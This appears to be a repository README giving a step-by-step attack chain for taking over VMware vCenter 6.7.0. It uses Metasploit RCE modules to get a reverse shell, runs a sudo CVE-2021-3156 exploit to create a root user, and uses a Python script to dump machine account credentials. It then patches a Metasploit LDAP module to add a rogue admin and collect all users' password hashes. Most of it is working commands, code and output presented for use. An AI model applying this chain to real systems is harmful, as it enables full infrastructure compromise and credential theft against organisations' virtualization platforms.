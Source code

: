 ## Taking over VMware Vcenter 6.7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000). Intended for research or pentersters only.

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:

![msf_vmware_vcenter_vsan_health_rce](msf_vmware_vcenter_vsan_health_rce.png)

### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

```
# cat /etc/photon-release
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d

# sudo --version
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

### Escalation priviledges via CVE-2021-xxxxx (not yet published)

To be updated once disclosed by VMWare ...

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```
#!/usr/bin/env python
import os
import sys
import shutil

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user.

You obtain the user name and password:
```
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module. Leveraging some aspects of [CVE-2020-3952](https://www.vmware.com/security/advisories/VMSA-2020-0006.html), despite the fact the Vcenter is not vulnerable to the CVE-2020-3952 itself. 

At the time of writing this article the Metasploit module needs to be adjusted with a pull request https://github.com/rapid7/metasploit-framework/pull/15656
In the mean time you may adjust the below function in `vmware_vcenter_vmdir_auth_bypass` yourself:

```
  def auth_bypass(ldap)
    unless datastore['BIND_DN']
      ldap.bind(
        method: :simple,
        username: Rex::Text.rand_text_alphanumeric(8..42),
        password: Rex::Text.rand_text_alphanumeric(8..42)
      )
    end
  end
```
After that modification an authenticated `vmware_vcenter_vmdir_auth_bypass` will work.


Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. As a bonus you get password hashes of all the other vcenter users from vsphere.local domain.

Now go to the https://10.0.0.1/ui and logon to the vcenter.
